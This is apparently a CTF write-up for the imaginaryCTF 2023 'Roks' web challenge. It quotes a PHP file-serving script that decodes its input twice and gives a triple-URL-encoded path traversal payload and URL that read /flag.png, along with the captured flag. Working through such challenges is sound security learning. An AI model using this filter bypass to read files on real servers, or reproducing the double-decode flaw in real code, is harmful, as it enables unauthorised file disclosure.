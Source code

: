 ```yaml
---
title: imaginaryCTF 2023 - Roks
date: Sun Jul 23 06:16:03 PM +04 2023
categories: [Writeup]
tags: [ctf,imaginaryctf,imaginaryctf2023,web]
---
```


## Description

by `FIREPONY57`

My rock enthusiast friend made a website to show off some of his pictures. Could you do something with it?

**Attachments**: [source](https://imaginaryctf.org/r/0Sm4V#roks.zip) <br>
**Server**: [http://roks.chal.imaginaryctf.org](http://roks.chal.imaginaryctf.org/)

## Solution

Flag location: `COPY flag.png /` (root directory -> `/flag.png`)

Website uses `file.php` to display images.
```js
xhr.open("GET", "file.php?file=" + randomImageName, true);
```

`file.php`:
```php
<?php
  $filename = urldecode($_GET["file"]);
  if (str_contains($filename, "/") or str_contains($filename, ".")) {
    $contentType = mime_content_type("stopHacking.png");
    header("Content-type: $contentType");
    readfile("stopHacking.png");
  } else {
    $filePath = "images/" . urldecode($filename);
    $contentType = mime_content_type($filePath);
    header("Content-type: $contentType");
    readfile($filePath);
  }
?>
```

requested `file` get's `urldecoded` and filtered for `/` and `.`

We need to get around this somehow. The interesting thing is `urldecode`, it's used once more when filter is passed (which is awfully odd). <br>
What if we URLEncode payload three times to bypass the filter?

![roks-1](/assets/images/imaginaryCTF/2023/roks-1.png)

Payload: `%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252Fflag%25252Epng`<br>
Final URL: `http://roks.chal.imaginaryctf.org/file.php?file=%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252Fflag%25252Epng`

![roks-2](/assets/images/imaginaryCTF/2023/roks-2.png)

> Flag: ictf{tr4nsv3rs1ng_0v3r_r0k5_6a3367} 
{: .prompt-tip }